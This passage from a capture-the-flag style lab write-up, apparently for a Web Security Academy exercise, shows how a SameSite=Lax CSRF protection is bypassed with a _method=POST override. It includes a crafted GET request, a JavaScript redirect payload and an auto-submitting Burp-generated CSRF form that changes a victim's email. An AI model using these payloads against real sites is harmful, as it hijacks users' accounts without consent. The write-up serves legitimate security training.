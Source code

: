 Appended a method override parameter to simulate a `POST` via `GET`:

```http
GET /my-account/change-email?email=pwned@web-security-academy.net&_method=POST HTTP/2
```

This trick worked because the server accepted `_method=POST` as an override.
![image](https://github.com/user-attachments/assets/f439d4ab-50a3-475f-ae25-2fc19cc93231)

---

### 6. Build the Exploit

To ensure the session cookie is included, the request must result from **top-level navigation**. I created the following HTML payload:

```html
<script>
  document.location = "https://your-lab-id.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

This causes the victim’s browser to send a `GET` request that is interpreted as a `POST`, with the session cookie included (due to `SameSite=Lax` + top-level navigation).


So in our final payload, we change the request method - `method="GET"` & then we include a hidden input form (ie.) - `<input type="hidden" name="_method" value="PUT">` inside the form to override the request method.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https:///your-lab-id.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

### 7. Deliver the Exploit

1. Stored the payload on the **Exploit Server**.
2. Delivered the exploit to the victim.
3. Once triggered, the victim’s session performed the email change, and the lab was marked as solved.
